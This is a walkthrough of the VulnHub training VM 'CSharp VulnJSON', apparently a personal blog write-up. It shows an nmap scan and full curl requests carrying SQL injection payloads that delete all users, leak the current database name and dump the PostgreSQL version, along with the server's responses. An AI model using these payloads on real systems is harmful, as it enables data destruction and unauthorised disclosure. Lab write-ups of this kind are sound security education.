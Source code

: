 ### CSharp VulnJSON

Another web challenge, [CSharp VulnJSON](http://www.vulnhub.com/entry/csharp-vulnjson,134/) seemed to be basically about the web exploitations mostly with SQL injections and XSS. After starting the VM, the first thing I did was a nmap scan.

```shell
nmap 192.168.168.54

Starting Nmap 6.47 ( http://nmap.org ) at 2016-02-24 11:20 CST
Nmap scan report for 192.168.168.54
Host is up (0.0036s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds
```

I loaded the site on the browser and it was a simple application. I saw that it was a simple page that would send XHR to `Vulnerable.ashx` with varieties of payloads. Basically, it seems to be the entrypoint for create, select and delete of CRUD.

The box seems to have a lot of issues with varied levels of criticality.

#### Bug 1 : Directory browsing

![bin dir](images/csharp-vulnjson-1.png "bin dir browsing enabled")

#### Bug 2 : Create user that can not be deleted from application

You can include a double quote in your username (eg. `"samar`) and the `Delete User` button won't work for this username.

#### Bug 3 : Delete all users via SQLi

You can delete all of the users via SQLi.
```shell
$ curl 'http://192.168.168.54/Vulnerable.ashx' -XPOST -H 'Host: 192.168.168.54' -H 'Accept-Encoding: gzip, deflate' -H 'DNT: 1' -H 'Content-Type: application/json; charset=UTF-8' -H 'Referer: http://192.168.168.54/Default.aspx' -d "{\"username\":\"' OR 1=1--\",\"method\":\"delete\"}"
{ "success" : True }
```

#### Bug 4 : SQLi on insert (Create user)

The first step was to try concatenation operators of various databases and quickly it turned out it was running Postgresql. The following worked:
```shell
$ curl 'http://192.168.168.54/Vulnerable.ashx' -XPOST -H 'Host: 192.168.168.54' -H 'Accept-Encoding: gzip, deflate' -H 'DNT: 1' -H 'Content-Type: application/json; charset=UTF-8' -H 'Referer: http://192.168.168.54/Default.aspx' -d "{\"username\":\"sam'||'ar\",\"password\":\"samar\",\"age\":null,\"line1\":\"\",\"line2\":\"\",\"city\":\"\",\"state\":\"\",\"zip\":null,\"first\":\"\",\"middle\":\"\",\"last\":\"\",\"method\":\"create\"}"
```

It created a user with username `samar`. The `||` (double pipe) is the concatenation operator in Postgresql. We can leverage this power to do several other stuffs. Some examples follow:

```shell
$ curl 'http://192.168.168.54/Vulnerable.ashx' -XPOST -H 'Host: 192.168.168.54' -H 'Accept-Encoding: gzip, deflate' -H 'DNT: 1' -H 'Content-Type: application/json; charset=UTF-8' -H 'Referer: http://192.168.168.54/Default.aspx' -d "{\"username\":\"'||current_database()||'\",\"password\":\"samar\",\"age\":null,\"line1\":\"\",\"line2\":\"\",\"city\":\"\",\"state\":\"\",\"zip\":null,\"first\":\"\",\"middle\":\"\",\"last\":\"\",\"method\":\"create\"}"
```

Now, if we perform list users, we know that we've a new user called `vulnerable_json` which is in fact result of `current_database()`. We can run several other calls such as current_user, user, etc. The only limit is your imagination and valid syntax while injecting your payloads. See this [cheatsheet](http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet) and [this](http://www.sqlinjectionwiki.com/Categories/4/postgresql-sql-injection-cheat-sheet/) for more details.

#### Bug 5 : SQLi in select (list users)

```shell
$ curl 'http://192.168.168.54/Vulnerable.ashx' -XPOST -H 'Host: 192.168.168.54' -H 'Accept-Encoding: gzip, deflate' -H 'DNT: 1' -H 'Content-Type: application/json; charset=UTF-8' -H 'Referer: http://192.168.168.54/Default.aspx' -d "{\"username\":\"' union all select version()--\",\"method\":\"list\"}" --compressed
[{"username":"PostgreSQL 9.3.9 on x86_64-unknown-linux-gnu, compiled by gcc (Ubuntu 4.8.4-2ubuntu1~14.04) 4.8.4, 64-bit"}]
```

** WIP **
